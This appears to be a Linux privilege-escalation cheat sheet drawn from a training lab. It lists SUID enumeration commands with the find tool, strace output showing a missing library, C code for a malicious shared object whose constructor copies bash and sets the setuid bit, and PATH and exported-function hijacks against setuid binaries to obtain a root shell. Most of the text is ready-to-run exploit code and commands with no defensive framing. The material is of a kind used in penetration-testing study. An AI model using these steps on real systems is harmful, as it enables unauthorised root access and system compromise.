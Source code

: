    ## Enumeration
    
    find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
    find / -perm -u=s -type f 2>/dev/null
    find / -type f -perm -04000 -ls 2>/dev/null
        
        
   ## Resource 
   
     https://gtfobins.github.io/
       
  ## Shared Object Injection
  
    find / -type f -perm -04000 -ls 2>/dev/null
    strace <PATH=2>&1
       
       
  ## TYPE COMMAND 
  
    strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
  
  
  ## OUTPUT
 
         
         
## access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
## open("/etc/ld.so.cache", O_RDONLY)      = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/lib/libdl.so.2", O_RDONLY)       = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/usr/lib/libstdc++.so.6", O_RDONLY) = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/lib/libm.so.6", O_RDONLY)        = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/lib/libgcc_s.so.1", O_RDONLY)    = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/lib/libc.so.6", O_RDONLY)        = 3
## open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)


   ## Exploit Shared Object Injection
   
   mkdir /home/user/.config
       
   Create C file Type Some Commands
       
    #include <stdio.h>
    #include <stdlib.h>

    static void inject()__attribute__((constructor));

    void inject() {
      system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
    }
   
   ## Complie

    gcc -shared -fpic -o /home/user/.config/libcalc.so /home/user/libcalc.c


  ## Run The Program
  
   /usr/local/bin/suid-so

   ####  Environment Variables
                
    env
    find / -type f -perm -04000 -ls 2>/dev/null
    /usr/local/bin/suid-env
    strings /usr/local/bin/suid-env
    echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/service.c
    gcc /tmp/service.c -o /tmp/service
    export PATH=/tmp:$PATH
    print $PATH
    /usr/local/bin/suid-env
    function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
    export -f /usr/sbin/service
    /usr/local/bin/suid-env2





     
    
